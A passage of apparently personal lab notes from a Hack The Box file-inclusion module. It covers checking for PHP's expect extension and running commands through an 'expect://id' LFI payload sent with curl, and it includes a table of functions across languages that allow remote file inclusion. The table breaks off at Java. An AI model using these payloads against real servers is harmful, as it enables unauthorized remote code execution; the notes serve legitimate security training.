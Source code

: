 ## Expect
We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:

```shell-session
alakin2504@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

```shell-session
alakin2504@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


# Remote File Inclusion (RFI)
the following are some of the functions that (if vulnerable) would allow RFI:

| **Technology/Function**             | **Read Content** | **Execute** | **Remote URL** | **Notes**                                                 |
| ----------------------------------- | ---------------- | ----------- | -------------- | --------------------------------------------------------- |
| **PHP**                             |                  |             |                |                                                           |
| `include()`/`include_once()`        | ✅                | ✅           | ✅              | Still relevant; major RFI vector                          |
| `require()`/`require_once()`        | ✅                | ✅           | ✅              | Similar to include but fails fatally                      |
| `file_get_contents()`               | ✅                | ❌           | ✅              | Can read remote content with `allow_url_fopen=On`         |
| `fopen()`                           | ✅                | ❌           | ✅              | Can access remote URLs with `allow_url_fopen=On`          |
| **Node.js**                         |                  |             |                |                                                           |
| `require()`                         | ✅                | ✅           | ❌              | Local by default, but can be bypassed                     |
| `import()`                          | ✅                | ✅           | ✅              | Dynamic imports can load from URLs                        |
| `fs` module functions               | ✅                | ❌           | ❌              | Local filesystem only                                     |
| `http`/`https` modules              | ✅                | ❌           | ✅              | Explicitly for remote content                             |
| `child_process.exec()`              | ✅                | ✅           | ✅              | Can execute commands that fetch remote content            |
| `res.render()`<br>                  | ✅                | ✅           | ❌              |                                                           |
| **Ruby**                            |                  |             |                |                                                           |
| `require`/`require_relative`        | ✅                | ✅           | ❌              | Local files only                                          |
| `load`                              | ✅                | ✅           | ❌              | Similar to require but reloads each time                  |
| `open`                              | ✅                | ❌           | ✅              | Can open remote URLs                                      |
| `Kernel.eval`                       | ✅                | ✅           | ✅              | When combined with remote content                         |
| `ERB.new().result`                  | ✅                | ✅           | ✅              | Template injection with remote content                    |
| **Python**                          |                  |             |                |                                                           |
| `import`/`importlib`                | ✅                | ✅           | ❌              | Local modules only                                        |
| `exec`/`eval`                       | ✅                | ✅           | ✅              | When combined with remote content                         |
| `urllib`/`requests`                 | ✅                | ❌           | ✅              | Explicitly for remote content                             |
| `open()`                            | ✅                | ❌           | ❌              | Local files only in modern Python                         |
| **Java**                            |                  |             |                |                                                           |
